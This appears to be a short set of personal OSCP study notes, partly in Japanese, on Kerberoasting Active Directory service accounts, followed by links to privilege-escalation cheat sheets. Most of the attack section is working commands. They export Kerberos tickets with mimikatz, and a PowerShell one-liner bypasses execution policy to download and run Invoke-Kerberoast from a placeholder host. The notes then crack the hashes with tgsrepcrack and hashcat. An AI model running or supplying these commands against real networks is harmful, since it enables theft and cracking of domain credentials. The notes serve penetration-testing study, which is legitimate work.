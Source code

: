 サービスチケットダウンロード(mimikatz.exe)

```
mimikatz.exe 'kerberos::list /export'

(kali)
python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt 1-40a50000-Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi

```

Invoke-Keroberoast

```
https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1
https://medium.com/@markmotig/kerberoasting-from-setup-to-cracking-3e8c980f26e8


powershell.exe -NoP -NonI -Exec Bypass IEX (New-Object Net.WebClient).DownloadString('http://<IP>/Invoke-Kerberoast.ps1');Invoke-Kerberoast -erroraction silentlycontinue -OutputFormat Hashcat

(kaliでhashをまとめたテキストファイル作成後)
hashcat -m 13100 krb5gts.txt  /usr/share/wordlists/rockyou.txt
```

importkeyエラーがでたとき、古いバージョンのmimikatz使えば解決できる。
https://gitlab.com/kalilinux/packages/mimikatz/-/blob/d72fc2cca1df23f60f81bc141095f65a131fd099/x64/mimikatz.exe

各コンピュータをnmapすれば名前やドメインはわかる。

[https://www.reddit.com/r/oscp/comments/jmp7nw/looking\_for\_snippet\_tool\_recommendations/](https://www.reddit.com/r/oscp/comments/jmp7nw/looking_for_snippet_tool_recommendations/)

# Useful Resources

## Useful Tools

- https://falconspy.medium.com/unofficial-oscp-approved-tools-b2b4e889e707

## Linux PrivEsc

- https://0xsp.com/offensive/privilege-escalation-cheatsheet
- https://book.hacktricks.xyz/linux-unix/privilege-escalation
- [https://sushant747.gitbooks.io/total-oscp-guide/content/privilege\_escalation\_-_linux.html](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html)

## Windows PrivEsc

- https://0xsp.com/offensive/privilege-escalation-cheatsheet
- [https://sushant747.gitbooks.io/total-oscp-guide/content/privilege\_escalation\_windows.html](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html)
- https://book.hacktricks.xyz/windows/windows-local-privilege-escalation
